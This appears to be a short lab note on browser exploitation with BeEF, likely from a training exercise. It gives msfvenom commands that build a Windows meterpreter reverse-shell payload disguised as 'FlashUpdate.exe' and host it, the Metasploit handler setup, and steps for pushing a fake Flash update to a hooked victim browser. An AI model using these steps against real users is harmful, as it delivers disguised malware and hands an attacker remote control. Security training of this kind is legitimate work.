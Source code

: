 # BeEF for browser exploitation notes

setup a msfvenom payload and host it with python webserver

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f exe -o /tmp/FlashUpdate.exe
python3 -m http.server 
```

start handler

```
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP>
exploit
```

## Starting Beef

```
beef
```

### interacting with beef

- go to the http://10.10.75.1:3000/demos/thetofuartist/index.html page as the victim
- sign into admin panel on the linux machine running beef
- go to the victim host you see in the admin panel, and go to commands in the middle pane
![image](https://github.com/user-attachments/assets/2893465d-cef6-4a71-b113-af67ea5f1ace)
- now select the Social Engineering folder and select Fake Flash Update
![image](https://github.com/user-attachments/assets/1504671d-c3f4-41a3-b3f0-cb7d7ae1074d)
- Now update the Custom payload URI and the image
  ![image](https://github.com/user-attachments/assets/a22dfeae-21d9-4b92-a6e2-f56b0e3b6703)
- go back to victim and run the update
